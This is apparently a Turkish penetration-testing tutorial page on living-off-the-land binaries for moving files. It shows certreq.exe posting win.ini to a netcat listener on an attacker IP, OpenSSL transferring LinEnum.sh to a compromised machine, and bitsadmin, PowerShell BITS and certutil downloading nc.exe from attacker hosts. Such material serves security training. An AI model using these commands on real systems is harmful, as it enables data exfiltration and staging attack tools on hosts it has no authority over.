 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Living off The Land

LOLBins (Living Off The Land Binaries) terimi, bir saldırganın orijinal amacının ötesinde eylemler gerçekleştirmek için kullanabileceği ikili dosyaları ifade etmek için kullanılır. Şu anda LOLBins hakkında bilgi toplayan iki web sitesi bulunmaktadır:

1. [LOLBAS](https://lolbas-project.github.io)
2. [GTFOBins](https://gtfobins.github.io/)

## Using the LOLBAS and GTFOBins Project

### LOLBAS

LOLBAS sitesinde indirme ve yükleme işlevlerini aramak için `/download` veya `/upload` filtrelerini kullanabiliriz.

Örnek olarak [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) aracını ele alalım. Netcat aracını kullanarak gelen trafiği, saldırı makinemizdeki bir port üzerinden dinlememiz ve ardından bir dosya yüklemek için `#!batch CertReq.exe` aracını çalıştırmamız gerekiyor:

```batch
certreq.exe -Post -config http://192.168.49.128 c:\windows\win.ini
```

Bu, dosyayı Netcat oturumumuza gönderecektir:

```bash
sudo nc -lvnp 80
```

```text title="Output"
listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Eğer `#!batch CertReq.exe` aracını çalıştırırken hata alırsanız kullandığınız sürüm POST parametresini içermiyor olabilir. Güncel sürümü [buradan](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) indirip tekrar deneyebilirsiniz.

### GTFOBins

LOLBAS sitesinde indirme ve yükleme işlevlerini aramak için `+file download` veya `+file upload` filtrelerini kullanabiliriz.

Örnek olarak [OpenSSL](https://www.openssl.org/) aracını ele alalım. Öncelikle bir sertifika oluşturmamız gerekiyor:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Ardından sunucuyu başlatıyoruz:

```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Artık ele geçirilmiş bilgisayardan dosyayı indirebiliriz:

```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land Tools

### Bitsadmin Download function

BITS ([Background Intelligent Transfer Service](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)), HTTP sitelerinden ve SMB paylaşımlarından dosya indirmek için kullanılabilir. Kullanıcının ön plandaki çalışması üzerindeki etkiyi en aza indirmek için bilgisayar ve ağ kullanımını akıllıca kontrol eder:

```batch
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell, BITS ile etkileşime olanak tanır, dosya indirme ve yükleme işlemlerine olanak tanır, kimlik bilgilerini destekler ve belirtilen proxy sunucularını kullanabilir:

```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil

Certutil aracı dosyaları indirmek için kullanılabilir. Tüm Windows sürümlerinde mevcuttur ve Windows için popüler bir dosya aktarım tekniğidir. Ancak AMSI (Antimalware Scan Interface), bu araçla yapılan kötü niyetli kullanımları algılamaktadır:

```batch
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
